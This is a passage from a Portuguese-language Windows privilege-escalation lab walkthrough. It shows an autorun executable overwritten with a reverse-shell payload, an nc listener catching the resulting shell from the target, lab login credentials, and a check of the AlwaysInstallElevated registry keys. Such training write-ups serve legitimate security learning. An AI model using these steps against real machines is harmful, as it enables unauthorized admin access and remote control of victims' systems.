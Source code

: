 ```powershell
                                                                                                  FILE_ALL_ACCESS
  RW BUILTIN\Users
                                                                                                  FILE_ALL_ACCESS
```

Aqui podemos ver que o usuário `user` tem permissão de escrita no arquivo `C:\Program Files\Autorun Program\program.exe`, então vamos criar um payload dentro desse arquivo.

```powershell
C:\Windows\system32>copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.

```

Apos reiniciar a maquina alvo usando o comando `rdesktop 10.10.32.183` e logar como `admin:password123` vamos verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:28:50
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49850
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="8"> • Registry - AlwaysInstallElevated</a>**

Vamos verificar os registros para as chaves `AlwaysInstallElevated` utilizando o comando `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`.

```powershell
PS C:\Users\user\Desktop> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\Users\user\Desktop> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Podemos ver que as chaves `AlwaysInstallElevated` estão configuradas para o valor `1`.
